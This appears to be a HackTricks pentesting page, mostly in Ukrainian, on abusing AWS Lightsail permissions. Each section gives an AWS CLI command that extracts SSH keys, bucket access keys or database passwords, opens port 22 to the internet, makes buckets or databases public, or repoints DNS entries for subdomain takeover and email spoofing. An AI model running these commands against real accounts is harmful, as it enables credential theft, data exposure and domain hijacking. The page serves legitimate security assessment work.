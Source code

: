 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Детальніше про Lightsail дивіться:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Важливо зауважити, що Lightsail **не використовує IAM ролі, що належать користувачу**, а натомість використовує обліковий запис, керований AWS, тому ви не можете зловживати цим сервісом для privesc. Однак у цьому сервісі можна знайти **чутливі дані**, такі як код, API keys та інформацію про бази даних.

### `lightsail:DownloadDefaultKeyPair`

Цей дозвіл дозволить вам отримати SSH keys для доступу до інстансів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти конфіденційну інформацію всередині інстансів.

### `lightsail:GetInstanceAccessDetails`

Цей дозвіл дозволить вам згенерувати SSH keys для доступу до інстансів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти конфіденційну інформацію всередині інстансів.

### `lightsail:CreateBucketAccessKey`

Цей дозвіл дозволить отримати ключ для доступу до bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potential Impact:** Знайти чутливу інформацію всередині bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Цей дозвіл дозволяє отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Можливий вплив:** Знайти конфіденційну інформацію в базі даних.

### `lightsail:UpdateRelationalDatabase`

Цей дозвіл дозволяє змінити пароль для доступу до бази даних:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Якщо база даних не є публічною, ви також можете зробити її публічною за допомогою цих дозволів.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:OpenInstancePublicPorts`

Цей дозвіл дозволяє відкривати порти для доступу з Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Цей дозвіл дозволяє відкривати порти в Інтернеті. Зверніть увагу, що виклик закриє будь-який відкритий порт, який у ньому не вказано.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potential Impact:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Цей дозвіл дозволяє надати інстансу доступ до бакету без додаткових облікових даних
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Можливий вплив:** Можливий новий доступ до buckets з чутливою інформацією.

### `lightsail:UpdateBucket`

Маючи цей дозвіл, зловмисник може надати власному обліковому запису AWS доступ на читання до buckets або навіть зробити buckets публічними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Можливий новий доступ до buckets, що містять чутливу інформацію.

### `lightsail:UpdateContainerService`

Маючи цей дозвіл, зловмисник може надати доступ до приватних ECRs із сервісу контейнерів.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Можливий вплив:** Отримати конфіденційну інформацію з приватного ECR

### `lightsail:CreateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на власний IP address (subdomain takeover), або створити SPF record, який дозволить йому підробляти електронні листи з цього домену, або навіть вказати головний домен на свій власний IP address.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Можливий вплив:** Takeover a domain

### `lightsail:UpdateDomainEntry`

Зловмисник із цим дозволом може створити subdomain і вказати його на свою IP-адресу (subdomain takeover), або сформувати SPF record, який дозволить йому spoof emails з домену, або навіть перенаправити основний домен на свою IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{{#include ../../../../banners/hacktricks-training.md}}
